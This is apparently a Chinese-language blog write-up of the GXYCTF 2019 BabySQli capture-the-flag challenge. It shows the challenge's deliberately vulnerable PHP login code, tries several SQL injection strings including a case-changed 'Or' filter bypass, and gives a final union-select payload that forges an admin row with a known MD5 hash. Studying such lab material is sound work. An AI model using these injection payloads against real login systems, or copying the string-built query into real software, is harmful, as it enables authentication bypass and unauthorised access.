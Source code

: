```yaml
---
author: 
  name: Zephyr
title: GXYCTF 2019 BabySQli
date: 2022-7-15 14:11:24
permalink: /pages/2e1547494524d1c9
tags: 
  - buuctf
  - web
  - SQLinjection
---
```


# GXYCTF 2019 BabySQli

## 题目分析

首先看一下题目，很普通的一个登录页面：

![GXYCTF_2019_BabySQli1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli1.png)

随便输入点什么后，发现跳转的search.php页面源码中有注释字符

![GXYCTF_2019_BabySQli2](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli2.png)

```
MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5
```

大写的字母和数字很明显是base32，先用base32解码一下

```
c2VsZWN0ICogZnJvbSB1c2VyIHdoZXJlIHVzZXJuYW1lID0gJyRuYW1lJw==
```

还有一层base64，继续解码得到SQL语句

```sql
select * from user where username = '$name'
```

很明显注入点在username上

尝试输入admin、password进行登录，提示wrong pass

![GXYCTF_2019_BabySQli3](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli3.png)

接着尝试输入root、root进行登录，提示wrong user，

![GXYCTF_2019_BabySQli4](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli4.png)

两者对比说明`admin`这个账户是存在的

尝试`admin' or 1=1#`万能密码登录

![GXYCTF_2019_BabySQli5](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli5.png)

被过滤了，换个变种`admin' Or 2>1#`尝试绕过，依然提示wrong pass

![GXYCTF_2019_BabySQli6](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli6.png)

万能密码绕不过，猜测用户名和密码是分开验证的，试了好一会儿没试出来，选择查看源码，buu给了源码地址，具体源码如下：

```php
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Do you know who am I?</title>
<?php
require "config.php";
require "flag.php";
 
// 去除转义
if (get_magic_quotes_gpc()) {
    function stripslashes_deep($value)
    {
        $value = is_array($value) ?
        array_map('stripslashes_deep', $value) :
        stripslashes($value);
        return $value;
    }
 
    $_POST = array_map('stripslashes_deep', $_POST);
    $_GET = array_map('stripslashes_deep', $_GET);
    $_COOKIE = array_map('stripslashes_deep', $_COOKIE);
    $_REQUEST = array_map('stripslashes_deep', $_REQUEST);
}
 
mysqli_query($con,'SET NAMES UTF8');
$name = $_POST['name'];
$password = $_POST['pw'];
$t_pw = md5($password);
$sql = "select * from user where username = '".$name."'";
$result = mysqli_query($con, $sql);
 
if(preg_match("/\(|\)|\=|or/", $name)){
    die("do not hack me!");
}
else{
    if (!$result) {
        printf("Error: %s\n", mysqli_error($con));
        exit();
    }
    else{
        $arr = mysqli_fetch_row($result);
        if($arr[1] == "admin"){
            if(md5($password) == $arr[2]){
                echo $flag;
            }
            else{
                die("wrong pass!");
            }
        }
        else{
            die("wrong user!");
        }
    }
}
 
?>
```

对密码验证的逻辑如下：

```php
$arr = mysqli_fetch_row($result);
if($arr[1] == "admin"){
    if(md5($password) == $arr[2]){
        echo $flag;
    }
    else{
        die("wrong pass!");
    }
}
else{
    die("wrong user!");
```

这里的逻辑是对我们提交的password进行md5加密后与数据库返回的密码进行比较，所以可以推出数据库内password在存储前也经过了md5加密

## 思路整理

- username处存在注入点
- 存在admin账户
- 提交的password经过md5加密后会与后端返回的password进行校验
- 依然还是不知道password是多少

似乎陷入了一个死结，不知道密码就无法登录，但这里联合查询语句的一个特性可以帮助解题

## 联合查询语句特性

- union select会把查询结果接在前一个查询结果后面，前面如果查到了东西，那么取得是两个查询的结果，如果前一个查询为空，返回后一个查询结果例子如下：

![GXYCTF_2019_BabySQli7](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli7.png)

这样我们就可以让前一个查询为空，然后拼接我们想要的结果的联合查询语句，来实现我们想要的任意SQL查询的返回的结果

tips:联合查询字段数必须一致

回到本题，那么就应该获取字段数了，过滤了or用Or绕过，确实字段数为3

![GXYCTF_2019_BabySQli8](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli8.png)

因为源码中`$arr[1] == "admin"`这一句确定了username在第二个字段，那么password不是第一个字段就是第三个字段了，这里盲猜第三个

## Payload

所以构造Payload如下：

```url
name=' union select 1,'admin','5f4dcc3b5aa765d61d8327deb882cf99'#&pw=password
```

即可获得flag

![GXYCTF_2019_BabySQli9](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli9.png)